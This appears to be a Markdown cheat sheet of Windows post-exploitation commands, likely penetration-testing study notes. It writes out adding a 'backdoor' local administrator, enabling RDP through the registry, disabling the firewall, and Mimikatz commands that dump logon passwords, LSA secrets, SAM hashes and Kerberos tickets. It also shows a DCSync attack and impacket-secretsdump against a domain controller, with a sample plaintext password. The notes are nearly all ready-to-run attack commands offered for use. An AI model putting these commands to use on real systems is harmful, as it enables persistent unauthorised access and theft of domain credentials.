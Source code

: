 first create any user and add him to localadmin group
```powershell
> net user /add backdoor Password123
```
```powershell
> net localgroup administrators /add backdoor
```
#### Enable RDP Registry command !!
```powershell
> reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
```
#### Disable Firewall:
```powershell
> netsh advfirewall set allprofiles state off
```
### Mimikatz:
```powershell
.\mimikatz.exe
```
```powershell
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # log
```
→ To dump the credentials of all logged-on users
```powershell
→ To dump the credentials of all logged-on users
mimikatz # sekurlsa::logonpasswords
mimikatz# lsadump::lsa /inject
mimikatz# lsadump::sam
mimikatz# lsadump::secrets
mimikatz# lsadump::cache
```

→ Show the tickets that are stored in memory

Take an example we are in the `CLIENT01.example.com` and we can list shares of `web01.example.com` like
Enter Commands in Client01 machine
```javascript
PS> dir \\web01.example.com\<sharename>
```
the Tickets will be cached TGT and TGS we can retrive them using the below command !!
```powershell
mimikatz # sekurlsa::tickets
```

### Domain Synchronization: Get access to DC Administrator and get any hash as admin user!!

→ lsadump::dcsync module and provide the domain username for which we want to obtain credentials as an argument for /user
```powershell
mimikatz # lsadump::dcsync /user:corp\dave
```
```powershell
mimikatz # lsadump::dcsync /user:corp\Administrator
```
```javascript
#this will give dave user hashes!
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

#this will give Administrator Hashes
impacket-secretsdump -just-dc-user Administrator corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
